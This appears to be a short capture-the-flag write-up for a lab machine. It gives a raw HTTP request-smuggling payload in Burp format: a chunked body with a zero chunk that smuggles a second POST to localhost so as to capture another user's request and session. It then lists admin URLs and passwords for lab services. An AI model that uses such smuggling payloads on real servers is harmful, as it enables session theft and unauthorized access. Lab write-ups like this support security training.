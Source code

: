 ### Write ups

### Make the chunked working
Add zero before the second request due to rfc like serialized format. In order to send multiple data in one packet on differenct tcp connections.

```burp
POST /comment HTTP/1.1
Host: 10.129.97.231:5000
Content-Length: 243
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.97.231:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.97.231:5000/home
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=eyJlbWFpbCI6ImZvb0BiYXIuY29tIn0.Y7zvZw.3_5f9jRl6XBlL7IZEy0OA7-YuY4
Transfer-Encoding:chunked

4
msg=
0

POST /notes HTTP/1.1
Host: localhost:5000
Content-Length: 300
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImZvb0BiYXIuY29tIn0.Y7zvZw.3_5f9jRl6XBlL7IZEy0OA7-YuY4

note=
```

### After gain the web admin

* Chef Login : http://chef.sink.htb Username : chefadm Password : /6'fEGC&zEx{4]zz 

* Dev Node URL : http://code.sink.htb Username : root Password : FaH@3L>Z3})zzfQ3 

* Nagios URL : https://nagios.sink.htb Username : nagios_adm Password : g8<H6GK\{*L.fB3C 